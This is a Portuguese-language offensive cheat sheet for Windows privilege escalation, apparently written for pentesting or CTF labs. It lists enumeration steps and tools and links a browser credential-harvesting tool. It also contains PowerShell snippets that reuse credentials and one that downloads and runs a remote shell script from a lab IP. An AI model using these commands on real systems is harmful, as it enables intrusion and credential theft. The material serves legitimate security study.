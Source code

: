 Windows PrivEsc
========================

1) Navegar nos diretorios do usuario para ver se existe algo ali que possa nos fornecer uma credencial ou algum bionario que inicie um servico/programa vulneravel a escalacao de privilegio
2) [Check](Windows%20PrivEsc.md#Winpeas) Rodar o WinPEAS para verificar se existe algum servico disponivel para exploracao com permissoes demais. Aqui temos que usar o accesschk
3) [Check](Windows%20PrivEsc.md#PowerUp) Rodar o PowerUp
4) [Check](Windows%20PrivEsc.md#Credenciais%20no%20registro) checar credenciais no registro do windows
5)  checar os servicos que estao rodando na maquina para ver se temos permissao de alteracao em algum deles
6) [Check](Windows%20PrivEsc.md#ScheduledTasks) checar as scheduleds tasks
7) verificar se existe algum servico rodando em localhost para exploracao de escalacao de privilegio
8) em sistemas mais antigos, explorar vulnerabilidades de kernel
9) Ja peguei cenarios em que uma maquina virtual estava instalada na maquina e foi possivel obter credenciais no historico desta mesma maquina
10)  Testes mais basicos como testar a propria credencial do usuário ja comprometido para o Administrator tambem pode
11) Enumerar os discos da máquina  e procurar por senhas ou arquivos sensíveis dentro destes.

1) Kernel exploits. Verificar a versão de kernel do windows. systeminfo
2) whoami /all ou /priv. Verificar privilégios do usuário. Vale considerar que estamos a procura do SEImpersonate.
3) Navegar nos diretórios C:\users, C:\program files, c:\program files (x86) afim de achar algum arquivo com informação sensível ou binário que possa ser explorado com exploits, por exemplo.
4) Winpeas e PowerUp
5) Verificar serviços em localhost
6) 9) Verificar scheduled taskts
7) Verificar credenciais em cache
8) Verificar credenciais no registro
9) Verificar unquoted service path (DLL Hijacking)
10) Weak service permissions




Depois considerar esse link para verifcar uma ferramenta para obtenção de credencais em processos como firefox chrome e afins...

https://github.com/putterpanda/mimikittenz

## Com credencial

    $password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
    Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred

Outra opção seria:
    
    $username = "arkham\batman"
    $password = "Zx^#QZX+T!123"
    $secstr = New-Object -TypeName System.Security.SecureString
    $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
    $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
    new-pssession -computername . -credential $cred
